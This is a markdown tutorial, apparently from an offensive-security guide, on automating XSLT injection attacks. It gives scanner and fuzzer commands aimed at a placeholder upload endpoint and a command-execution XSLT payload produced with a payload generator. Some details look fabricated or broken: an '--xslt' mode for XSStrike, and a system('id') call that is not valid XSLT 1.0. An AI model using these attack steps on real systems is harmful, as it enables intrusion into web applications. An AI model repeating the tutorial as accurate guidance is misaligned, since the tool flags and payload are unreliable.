 ```yaml
---
title: Automate XSLT Injection Testing & Exploitation
description: Learn tools and techniques for automating discovery & exploitation of
  XSLT injection vulnerabilities.
keywords:
- XSLT injection automation
- vulnerability scanner
- XSLT payload generator
- fuzzing tools
- Burp Suite extension
- exploitation framework
- automated testing
- web application security
---
```


# Tools & Automation

## Context

This article aims to empower offensive operators to utilize automation and specialized tools to discover and exploit XSLT injection vulnerabilities in web applications. Readers are expected to understand how XSLT processing functions within web environments, be familiar with XML and XSLT syntax, and have experience with manual XSLT injection techniques.

## Theory

### Automation in XSLT Injection Testing

Automation in XSLT injection exploits involves employing tools that can systematically scan and exploit potential vulnerabilities in web applications. These tools enhance the speed, coverage, and reproducibility of assessments. The typical attack sequence involves detecting potential injection points, sending crafted payloads, analyzing application responses, and executing successful exploits.

### Categories of XSLT Injection Tooling

There are different categories of tools designed for XSLT injection:

- **Scanners:** These tools are used to discover potential XSLT injection points through automated request patterns and response analyses. 
- **Payload Generators:** They are responsible for crafting both valid and malicious XSLT payloads that are essential for fuzzing and exploiting vulnerabilities.
- **Fuzzers:** These mutate XSLT input data in an automated fashion to reveal unexpected application behavior or vulnerabilities.
- **Exploitation Frameworks:** Such frameworks provide automation capabilities that cover discovery, exploitation, and post-exploitation phases.

### Integration with Web Application Testing Suites

XSLT injection tools can be integrated into broader web application security testing environments. This is often done through extensions or scripts within testing suites like Burp Suite, allowing for the inclusion of XSLT-specific payloads and detection mechanisms within automated assessment workflows.

## Practice

### Automated XSLT Injection Scanning with XSStrike

- **Launch XSStrike:** Initiate a scan by running XSStrike with the XSLT mode enabled against a target endpoint.

  ```bash
  xsstrike --xslt --url http://target-app/upload
  ```

- **Output Analysis:** XSStrike outputs potential injection points, like the discovery of a vulnerability in a specific parameter.

  ```
  Potential XSLT injection point detected at parameter: file
  ```

This process identifies possible XSLT injection points automatically, saving considerable time and effort compared to manual testing.

### Fuzzing XSLT Inputs with wfuzz

- **Execute Fuzzing:** Engage wfuzz to fuzz the `xmlfile` parameter using a list of XSLT payloads while filtering default responses.

  ```bash
  wfuzz -c -z file,wordlists/xslt_payloads.txt --hs 'No error' -d 'xmlfile=FUZZ' http://target-app/upload
  ```

Using this approach helps in discovering vulnerabilities through the combination of payload fuzzing and response pattern analysis.

### Generating XSLT Payloads with xsltgen

- **Create Payloads:** Use xsltgen to produce XSLT payloads for specific attack vectors, such as command execution.

  ```bash
  xsltgen --template command_exec --output payload.xslt --cmd 'id'
  ```

- **Example Payload:**

  ```xml
  <?xml version="1.0"?>
  <xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
      <xsl:template match="/">
          <xsl:value-of select="system('id')"/>
      </xsl:template>
  </xsl:stylesheet>
  ```

These payloads enable effective exploitation by crafting valid XSLT documents for various attacks.

### Using Burp Suite XSLT Injection Extension

- **Setup Burp Suite Extension:** Add the XSLT Injection extension through Burp Suite's BApp Store to enhance testing capabilities.
- **Configuration:** Set the extension's focus towards endpoints that handle XML uploads or transformations.
- **Results Review:** Analyze the results gathered by the scanner for any discovered XSLT injection vulnerabilities.

This semi-automated method integrates seamlessly into a typical testing workflow to provide comprehensive coverage.

## Tools

- **XSStrike**
- **wfuzz**
- **xsltgen**
- **Burp Suite** 

These tools are vital for automating the detection and exploitation of XSLT injection vulnerabilities.